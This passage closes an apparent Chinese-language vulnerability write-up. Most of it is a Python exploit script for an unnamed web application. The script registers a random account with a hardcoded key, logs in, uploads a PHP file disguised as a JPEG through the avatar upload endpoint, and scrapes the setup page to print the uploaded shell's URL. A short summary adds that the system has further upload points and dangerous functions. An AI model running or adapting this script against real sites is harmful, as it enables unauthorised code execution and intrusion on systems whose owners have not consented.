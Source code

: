 ## 0x04 Python 脚本编写

```plain
import re
import sys
import requests
import random

url = sys.argv[1]
session = requests.session()
user = str(int(random.uniform(2222222, 9999999)))
files = {'file':('a.php','<?php phpinfo();?>', 'image/jpeg')}
aaa = session.post(url + "/api/reg.php",data={'zh':user,'em':user + '@qq.com','mm':user,'allkey':'1a8eed4f3e05c811c6b1c5550102e86f','yzm':'undefined'}).text
if "注册成功" in aaa:
    bbb = session.post(url + '/api/login.php',data={'zh':user,'mm':user})
    ccc = session.post(url + '/api/uploadavatar.php',files=files)
    print('注册成功 账号:' + user + "  密码：" + user)
    if '上传成功' in ccc.text:
        ddd = session.get(url + '/setup.php').text
        shell = str(re.findall(r'data-src="./(.*)" id="setup-main-lieb-qx-imgt',ddd,re.DOTALL))
        print('成功上传:'+ url + shell.replace('[\'','').replace('\']',''))
else:
    print('注册失败',aaa)
```

[![](assets/1711465840-2d9e19542784fcb122505838673720d4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240324210030-7e447faa-e9de-1.png)

## 0x05 总结

**这套系统整体危险函数还是比较多的，上传点不止一个，且不注意伪造 ip，各位师傅们可以自行研究。**